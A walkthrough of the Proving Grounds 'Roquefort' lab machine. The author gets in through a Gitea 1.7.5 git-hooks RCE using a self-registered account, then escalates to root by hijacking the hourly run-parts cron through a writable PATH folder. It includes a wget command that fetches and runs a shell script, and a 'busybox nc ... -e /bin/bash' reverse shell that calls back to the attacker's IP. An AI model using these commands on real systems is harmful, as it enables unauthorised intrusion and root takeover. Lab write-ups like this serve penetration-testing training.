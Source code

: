```yaml
---
layout: writeup
title: Roquefort - Proving Grounds
date: 2024-07-24 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Gitea]
---
```


Here's a writeup for Roquefort, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:
```
21/tcp   open   ftp
22/tcp   open   ssh
53/tcp   closed domain
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

That only gives us a few options. I can't login to FTP with anonymous, and nothing shows in the URL when we visit $IP:2222. We do get a page for something called `Gitea` when we visit $IP:3000.

![Roquefort1.png](/assets/images/Roquefort/Roquefort1.png){: .center-aligned width="600px"}


The bottom of the page shows we are working with `Gitea Version 1.7.5`, so maybe we can get somewhere with that. I run a directory scan in the background as well. We also see an RCE for this version in [exploit-db](https://www.exploit-db.com/exploits/49383). Unfortunately, it requires us to authenticate, but there is a Register link, so maybe we just create our own user and run it. I use `pop:party1` and edit the exploit like this: 

![Roquefort2.png](/assets/images/Roquefort/Roquefort2.png){: .center-aligned width="600px"}


Unfortunately I get an error when executing the exploit, and it doesn't even reach my python server. I try a few different port configurations, but I can't ever get a response, and I note that there could be difficulties with this exploit if there is a firewall only allowing access from port 3000. In retrospect, the issue seems to be that this full command requires three ports - the HOST_PORT, the server port, and the shell listener - but it seems like the firewall may only allow traffic from ports 21 and 3000. I'm not positive, but I did eventually get a shell afterwards by splitting the CMD up and running twice:

1. Once with `HOST_PORT = 3000` and `CMD = 'wget http://192.168.45.183:21/shell3000.sh -O /tmp/shell && chmod 777 /tmp/shell`
2. And again with `HOST_PORT = 21` and `CMD = '/tmp/shell` with a shell listener over 3000. 

But I figured that out purely out of curiosity after I got a shell using another [exploit](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) and got it working with this command:

`python3 CVE-2020-14144-GiTea-git-hooks-rce.py -t http://192.168.182.67:3000 -u pop -p party1 -I 192.168.45.183 -P 3000`

And I can catch a shell on my penelope listener. 

![Roquefort3.png] (/assets/images/Roquefort/Roquefort3.png){: .center-aligned width="600px"}

At this point we begin our enumeration process and go through a fw things before running linpeas. Reading the output shows a few of these RED/YELLOW highlights said to be "95% a PE vector", and they all have to do with this writable folder. 

![Roquefort4.png](/assets/images/Roquefort/Roquefort4.png){: .center-aligned width="600px"}


Because this folder is in the PATH, we should be able to write something here and have it be executed by root. Usually the way I've seen this done is through a cron job - you put a malicious file in the path, and then it's executed by whoever is running the cron job. In this case, it doesn't seem like there are any. I got stuck here for a few hours, trying to find something running periodically or a way I could use one of the few binaries with SUID permissions to execute something from within this path, but I couldn't find anything. Any examples I found online required me to have some step I couldn't replicate. I also moved `gitea`  the only binary already in the `/usr/local/bin` folder to my machine and tried to analyze it, looking for any other binaries within where I might be able to modify the path. So after a few hours, I looked for a hint, which pointed me to this:

![Roquefort5.png](/assets/images/Roquefort/Roquefort5.png){: .center-aligned width="600px"}

It's something I'd seen previously and ignored. There *is* a cron job running, but it (`run-parts`) runs *hourly*. I've never seen that in a lab and to be honest, explicitly understood to be out of the scope of the OSCP, which I am studying for. Usually cron jobs used in privesc for this kind of lab runs every few minutes to minimize the time spent waiting. Lessons learned, I guess. At this point I create a reverse shell in the path by running `echo 'busybox nc 192.168.45.183 21 -e /bin/bash' > run-parts` from within /usr/local/bin and then `chmod 777 run-parts`, setting up the shell on port 21 and waiting. 

![Roquefort6.png](/assets/images/Roquefort/Roquefort6.png){: .center-aligned width="600px"}

Boom, done. Lessons learned - cron jobs aren't limited to every few minutes for labs. Check that exploits found online use ports that aren't blocked by a firewall in the given lab environment. On to the next one. 